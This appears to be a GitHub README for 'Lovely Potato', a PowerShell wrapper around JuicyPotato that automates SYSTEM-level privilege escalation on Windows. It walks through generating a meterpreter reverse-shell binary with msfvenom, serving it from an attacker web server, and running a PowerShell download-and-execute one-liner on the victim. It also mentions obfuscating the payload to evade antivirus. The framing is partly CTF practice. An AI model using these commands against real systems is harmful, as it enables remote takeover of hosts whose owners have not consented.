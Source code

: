 # Lovely Potato (automating juicy potato)
*Powershell wrapper of [Decoder's JuicyPotato][1] for easy exploitation. **This entirely depends on the [original Juicy Potato binary][2] and utilizes [his test_clsid.bat][3].***
TL;DR: SeImpersonatePrivilege Is Enabled = JuicyPotato Exploitable

## Quick Guide
First clone this repo to your attacker machine which already has all of required dependencies:
```
root@attacker:~# git clone https://github.com/TsukiCTF/Lovely-Potato.git
root@attacker:~# cd Lovely-Potato
```
Then modify the two following variables in 'Invoke-LovelyPotato.ps1' as below (attacker machine IP, writable path on the victim machine):
```
$RemoteDir = "http://[AttackerIP]
$LocalPath = "[WritablePathOnVictimMachine]"
```
Now create a meterpreter binary on the attacker machine or use any other executable reverse shell:
```
root@attacker:~/Lovely-Potato# msfvenom -p windows/meterpreter/reverse_tcp LHOST=[AttackerIP] LPORT=[AttackerPort] -f exe -o meterpreter.exe
```
Start a web server in this repo to serve your meterpreter.exe and other dependencies:
```
root@attacker:~/Lovely-Potato# python3 -m http.server 80
```
On a new terminal, launch metasploit console (or any listener which handles whatever you are serving as a reverse shell):
```
root@attacker:~# msfdb run
msf5 > # I'm going to omit setting up the multi handler as it is something you should already know
```
Finally enter below command on victim's powershell console and you **MUST WAIT 10 minutes** for reverse shell running as user NT AUTHORITY\SYSTEM!
```
PS > IEX(New-Object Net.WebClient).DownloadString('http://[AttackerIP]/Invoke-LovelyPotato.ps1')
```

## Why Use Lovely Potato?
*For simplicity.*
Manually uploading various files to target host can be easily avoided with automation.
Also, listing entire CLSIDs on the system and identifying privilege for each of them takes very long time if done by sending commands.
You can easily switch binaries in the repo any time without having to recode Invoke-LovelyPotato.ps1.
Ex) Recompiling JuicyPotato for customization / Obfuscating your meterpreter for AV evasion

## Demo
Setting up & Testing Lovely Potato against HackTheBox machine (starting at 6:43)
https://youtu.be/f-JDU0GlRIw?t=403 (the video got taken down and is in appeal process)


[1]: https://github.com/ohpe/juicy-potato
[2]: https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts
[3]: https://github.com/ohpe/juicy-potato/blob/master/Test/test_clsid.bat
